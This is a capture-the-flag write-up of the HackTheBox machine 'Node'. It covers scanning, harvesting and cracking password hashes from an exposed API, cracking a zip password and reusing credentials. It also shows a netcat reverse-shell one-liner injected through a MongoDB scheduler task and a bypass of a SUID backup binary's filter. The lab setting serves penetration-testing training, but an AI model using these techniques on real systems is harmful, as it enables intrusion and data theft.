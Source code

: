 ```yaml
---
layout: post
title: Hackthebox None Walkthrough
categories: HackTheBox
---
```


![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-07/node-badge.png)

# Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
This is a walkthrough of a box "Node".<br>

# Solution
## 1. Initial Enumeration
### TCP Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.58 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-05 21:28 EEST
Nmap scan report for 10.10.10.58
Host is up (0.040s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-datanode Apache Hadoop
| hadoop-datanode-info:
|_  Logs: /login
| hadoop-tasktracker-info:
|_  Logs: /login
|_http-title: MyPlace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.96 seconds
{% endhighlight %}


## 2. Getting User

We can find a NodeJS website on port 3000.
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-07/2020-04-05-21-35-11.png)

Using Burp Suite, we can find an interesting HTTP request to "/api/users/latest".
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-07/2020-04-05-21-40-44.png)

Then, access to the API.<br>
We can see some passwords for user "tom", "mark" and "rastating".
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.58:3000/api/users/latest | jq
[
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
{% endhighlight %}

Next, try "/api/users".<br>
We can find an admin user "myP14ceAdm1nAcc0uNT".
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.58:3000/api/users/ | jq
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
{% endhighlight %}

We can crack the password using <a href="https://crackstation.net/">Crackstation.net</a>.<br>
The cracked password is "manchester".
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-07/2020-04-05-21-57-05.png)

We can download a file "myplace.backup" base64 encoded.
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-07/2020-04-05-22-00-44.png)

Try to decode with base64 command.
{% highlight shell %}
root@kali:~# cat myplace.backup | base64 --decode > myplace
root@kali:~# file myplace
myplace: Zip archive data, at least v1.0 to extract
{% endhighlight %}

Since the zip file is password protected, try to brute-force using "fcrackzip".<br>
The password is "magicword".
{% highlight shell %}
root@kali:~# unzip myplace
Archive:  myplace
[myplace] var/www/myplace/package-lock.json password:

root@kali:~# fcrackzip -D -p /usr/share/wordlists/rockyou.txt myplace
possible pw found: magicword ()
{% endhighlight %}

Then, unzip the archive.
It looks like a source code of a NodeJS web application.
{% highlight shell %}
root@kali:~# unzip myplace
Archive:  myplace
[myplace] var/www/myplace/package-lock.json password:
  inflating: var/www/myplace/package-lock.json
  inflating: var/www/myplace/node_modules/serve-static/README.md
  inflating: var/www/myplace/node_modules/serve-static/index.js

---
{% endhighlight %}

Take a look at the source code.<br>
In "/var/www/myplace/app.js", we can find a mongodb credential for user "mark".
{% highlight shell %}
root@kali:~/var/www/myplace# cat app.js | grep mongo
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
    console.log('[!] Failed to connect to mongodb');
{% endhighlight %}

We can use the credential for SSH connection.
{% highlight shell %}
mark:5AYRft73VtFpc84k
{% endhighlight %}
{% highlight shell %}
root@kali:~# ssh mark@10.10.10.58
mark@10.10.10.58's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.




              .-. 
        .-'``(|||) 
     ,`\ \    `-`.                 88                         88 
    /   \ '``-.   `                88                         88 
  .-.  ,       `___:      88   88  88,888,  88   88  ,88888, 88888  88   88 
 (:::) :        ___       88   88  88   88  88   88  88   88  88    88   88 
  `-`  `       ,   :      88   88  88   88  88   88  88   88  88    88   88 
    \   / ,..-`   ,       88   88  88   88  88   88  88   88  88    88   88 
     `./ /    .-.`        '88888'  '88888'  '88888'  88   88  '8888 '88888' 
        `-..-(   ) 
              `-` 




The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Sep 27 02:33:14 2017 from 10.10.14.3
mark@node:~$ id
uid=1001(mark) gid=1001(mark) groups=1001(mark)
{% endhighlight %}

However, we are still not capable of getting user.txt.<br>
We have other 2 users.
{% highlight shell %}
mark@node:/home$ ls -l
total 12
drwxr-xr-x 2 root root 4096 Aug 31  2017 frank
drwxr-xr-x 3 root root 4096 Sep  3  2017 mark
drwxr-xr-x 6 root root 4096 Sep  3  2017 tom
{% endhighlight %}

If take a look at the processes, we can see 2 processes by another user "tom".
{% highlight shell %}
mark@node:~$ ps aux | grep tom
tom       1211  0.0  5.8 1074616 44232 ?       Ssl  19:31   0:03 /usr/bin/node /var/scheduler/app.js
tom       1231  0.0  6.6 1024156 50068 ?       Ssl  19:31   0:04 /usr/bin/node /var/www/myplace/app.js
mark      1610  0.0  0.1  14228  1020 pts/0    S+   23:05   0:00 grep --color=auto tom
{% endhighlight %}

Using the following command, we can access the command line interface of MongoDB.<br>
Also it is possible to insert reverse shell command.
{% highlight shell %}
mark@node:~$ mongo -u mark -p 5AYRft73VtFpc84k localhost/scheduler
MongoDB shell version: 3.2.16
connecting to: localhost/scheduler
> db.tasks.insertOne( { cmd: "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.6 4444 >/tmp/f" } );
{
        "acknowledged" : true,
        "insertedId" : ObjectId("5e8b80f878ddbff46dfcb0d7")
}
> exit
bye
{% endhighlight %}

Launch a netcat listener.
{% highlight shell %}
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...

{% endhighlight %}

After a few minutes, we can get a reverse shell as user "tom".
{% highlight shell %}
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.58] 38860
bash: cannot set terminal process group (1230): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@node:/$ id
id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
{% endhighlight %}

user.txt is in the directory "/home/tom".
{% highlight shell %}
tom@node:/$ cd /home/tom
cd /home/tom
tom@node:~$ ls
ls
user.txt
tom@node:~$ cat user.txt
cat user.txt
e1156acc3574e04b06908ecf76be91b1
{% endhighlight %}


## 3. Getting Root

With the following command, we can find a binary file "/usr/local/bin/backup"
{% highlight shell %}
tom@node:/tmp$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/local/bin/backup
/usr/bin/chfn
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/bin/ping
/bin/umount
/bin/fusermount
/bin/ping6
/bin/ntfs-3g
/bin/su
/bin/mount
{% endhighlight %}

Also, we can find a way to use this executable in the previous script "/var/www/myplace/app.js".<br>
The "backup_key" is also in this code.
{% highlight shell %}
200   app.get('/api/admin/backup', function (req, res) {
201     if (req.session.user && req.session.user.is_admin) {
202       var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
203       var backup = '';
{% endhighlight %}

This time, we can bypass the filter of the binary with the following way.
{% highlight shell %}
tom@node:/tmp$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "/roo\t/roo\t.txt" | base64 -d > /tmp/flag.zip
<0afc3d98a8d0230167104d474 "/roo\t/roo\t.txt" | base64 -d > /tmp/flag.zip    

tom@node:/tmp$ unzip -P magicword flag.zip
unzip -P magicword flag.zip
Archive:  flag.zip
 extracting: root/root.txt
{% endhighlight %}

Now we extracted the root.txt
{% highlight shell %}
tom@node:/tmp$ cat root/root.txt
cat root/root.txt
1722e99ca5f353b362556a62bd5e6be0
{% endhighlight %}
